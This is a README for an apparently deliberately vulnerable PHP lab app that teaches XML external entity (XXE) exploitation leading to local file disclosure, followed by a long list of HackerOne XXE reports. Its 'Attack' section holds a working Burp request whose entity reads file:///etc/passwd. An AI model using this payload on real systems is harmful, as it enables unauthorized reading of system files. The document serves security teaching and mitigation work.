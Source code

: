 # PHP-XXE-TO-LFI

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Owasp

 https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
 
 https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection

## SAST Tools : 

Find With SAST Tools : SonarQube Develpoer Plan

![Getting Started](1.png)


Find With SAST Tools : Snyk Team Plans


![Getting Started](2.png)


## Setup


    make install


Then simply visit [localhost:10004][App] ! 😆

## Payload 

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>TEST</name>
    <email>TEST@EXAMPLE.com</email>
    <subject>We TEST</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

## Attack

![Getting Started](3.png)

    
Burp Request : 


    POST /contact.php HTTP/1.1
    Host: localhost:10004
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:96.0) Gecko/20100101 Firefox/96.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: text/plain;charset=UTF-8
    Content-Length: 230
    Origin: http://localhost:10004
    Connection: close
    Referer: http://localhost:10004/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin

    <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxezrp9j SYSTEM "file:///etc/passwd"> ]>
    <contact>
     <name>mvmm&xxezrp9j;</name>
     <email>ccc@gmail.com</email>
     <subject>aaacckj</subject>
     <message>undefined</message>
    </contact>


## Fix Guide :  

 https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
 
## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md
   
## Top Report 
1. [XXE at ecjobs.starbucks.com.cn/retail/hxpublic_v6/hxdynamicpage6.aspx](https://hackerone.com/reports/500515) to Starbucks - 304 upvotes, $4000
2. [XXE on pulse.mail.ru](https://hackerone.com/reports/505947) to Mail.ru - 263 upvotes, $6000
3. [XXE on sms-be-vip.twitter.com in SXMP Processor](https://hackerone.com/reports/248668) to Twitter - 250 upvotes, $10080
4. [XXE on https://duckduckgo.com](https://hackerone.com/reports/483774) to DuckDuckGo - 208 upvotes, $0
5. [Phone Call to XXE via Interactive Voice Response](https://hackerone.com/reports/395296) to ██████ - 167 upvotes, $0
6. [Partial bypass of #483774 with Blind XXE on https://duckduckgo.com](https://hackerone.com/reports/486732) to DuckDuckGo - 151 upvotes, $0
7. [Multiple endpoints are vulnerable to XML External Entity injection (XXE) ](https://hackerone.com/reports/72272) to Pornhub - 135 upvotes, $2500
8. [XXE through injection of a payload in the XMP metadata of a JPEG file](https://hackerone.com/reports/836877) to Informatica - 128 upvotes, $0
9. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 110 upvotes, $0
10. [XXE in Site Audit function exposing file and directory contents](https://hackerone.com/reports/312543) to Semrush - 99 upvotes, $2000
11. [XXE in DoD website that may lead to RCE](https://hackerone.com/reports/227880) to U.S. Dept Of Defense - 89 upvotes, $0
12. [[RCE] Unserialize to XXE - file disclosure on ams.upload.pornhub.com](https://hackerone.com/reports/142562) to Pornhub - 88 upvotes, $10000
13. [Blind XXE via Powerpoint files](https://hackerone.com/reports/334488) to Open-Xchange - 86 upvotes, $2000
14. [blind XXE in autodiscover parser](https://hackerone.com/reports/315837) to Mail.ru - 70 upvotes, $5000
15. [LFI and SSRF via XXE in emblem editor](https://hackerone.com/reports/347139) to Rockstar Games - 68 upvotes, $1500
16. [Blind OOB XXE At "http://ubermovement.com/"](https://hackerone.com/reports/154096) to Uber - 55 upvotes, $500
17. [XXE на webdav.mail.ru -  PROPFIND/PROPPATCH](https://hackerone.com/reports/758978) to Mail.ru - 54 upvotes, $10000
18. [XXE on ██████████ by bypassing WAF ████](https://hackerone.com/reports/433996) to QIWI - 50 upvotes, $5000
19. [[rev-app.informatica.com] - XXE](https://hackerone.com/reports/105434) to Informatica - 44 upvotes, $0
20. [RCE via Local File Read -\> php unserialization-\> XXE -\> unpickling](https://hackerone.com/reports/415501) to h1-5411-CTF - 43 upvotes, $0
21. [XML External Entity (XXE) in qiwi.com + waf bypass](https://hackerone.com/reports/99279) to QIWI - 39 upvotes, $3137
22. [Authenticated XXE](https://hackerone.com/reports/1095645) to WordPress - 39 upvotes, $600
23. [XML Parser Bug: XXE over which leads to RCE](https://hackerone.com/reports/55431) to drchrono - 32 upvotes, $700
24. [XXE on DoD web server](https://hackerone.com/reports/188743) to U.S. Dept Of Defense - 30 upvotes, $0
25. [Singapore - XXE at https://www.starbucks.com.sg/RestApi/soap11](https://hackerone.com/reports/762251) to Starbucks - 27 upvotes, $500
26. [[app.informaticaondemand.com] XXE](https://hackerone.com/reports/105753) to Informatica - 24 upvotes, $0
27. [Blind XXE on my.mail.ru](https://hackerone.com/reports/276276) to Mail.ru - 23 upvotes, $800
28. [Non-production Open Database In Combination With XXE Leads To SSRF](https://hackerone.com/reports/742808) to Evernote - 23 upvotes, $0
29. [ XXE in upload file feature](https://hackerone.com/reports/105787) to Informatica - 21 upvotes, $0
30. [[send.qiwi.ru] Soap-based XXE vulnerability /soapserver/ ](https://hackerone.com/reports/36450) to QIWI - 17 upvotes, $1000
31. [Blind XXE on pu.vk.com](https://hackerone.com/reports/296622) to VK.com - 16 upvotes, $500
32. [XXE in the Connector Designer](https://hackerone.com/reports/112116) to Bime - 13 upvotes, $750
33. [[marketplace.informatica.com] - XXE](https://hackerone.com/reports/106797) to Informatica - 13 upvotes, $0
34. [AEM forms XXE Vulnerability](https://hackerone.com/reports/1321070) to Adobe - 13 upvotes, $0
35. [OOB XXE ](https://hackerone.com/reports/690387) to Mail.ru - 12 upvotes, $500
36. [blind XXE when uploading avatar in mymail phone app](https://hackerone.com/reports/277341) to Mail.ru - 11 upvotes, $1000
37. [XXE issue](https://hackerone.com/reports/130661) to Moneybird - 11 upvotes, $150
38. [[rev-app.informatica.com] - XXE via SAML](https://hackerone.com/reports/106865) to Informatica - 11 upvotes, $0
39. [[marketplace.informatica.com] - XXE](https://hackerone.com/reports/106802) to Informatica - 11 upvotes, $0
40. [h1-5411-CTF report: LFI / Deserialization / XXE vulnerability, ](https://hackerone.com/reports/415233) to h1-5411-CTF - 8 upvotes, $0
41. [[usuppliers.uber.com] - Server Side Request Forgery via XXE OOB](https://hackerone.com/reports/448598) to Uber - 7 upvotes, $500
42. [XXE крит](https://hackerone.com/reports/449627) to Mail.ru - 7 upvotes, $300
43. [XXE on www.publish.engelvoelkers.com](https://hackerone.com/reports/914801) to Engel & Völkers Technology GmbH - 7 upvotes, $0
44. [XXE in Enterprise Search's App Search web crawler](https://hackerone.com/reports/1156748) to Elastic - 6 upvotes, $8200
45. [[Java]: Add XXE sinks](https://hackerone.com/reports/1339787) to GitHub Security Lab - 6 upvotes, $1800
46. [XXE at Informatica sub-domain](https://hackerone.com/reports/150520) to Informatica - 6 upvotes, $0
47. [OOB XXE ](https://hackerone.com/reports/690295) to Mail.ru - 5 upvotes, $500
48. [XXE and SSRF on webmaster.mail.ru](https://hackerone.com/reports/12583) to Mail.ru - 3 upvotes, $700
49. [XXE in OAuth2 Applications gallery profile App logo](https://hackerone.com/reports/104620) to Coinbase - 2 upvotes, $0
50. [XXE at host vpn.owncloud.com](https://hackerone.com/reports/105980) to ownCloud - 2 upvotes, $0
51. [Pippo XML Entity Expansion (Billion Laughs Attack)](https://hackerone.com/reports/506791) to Central Security Project - 1 upvotes, $0

   
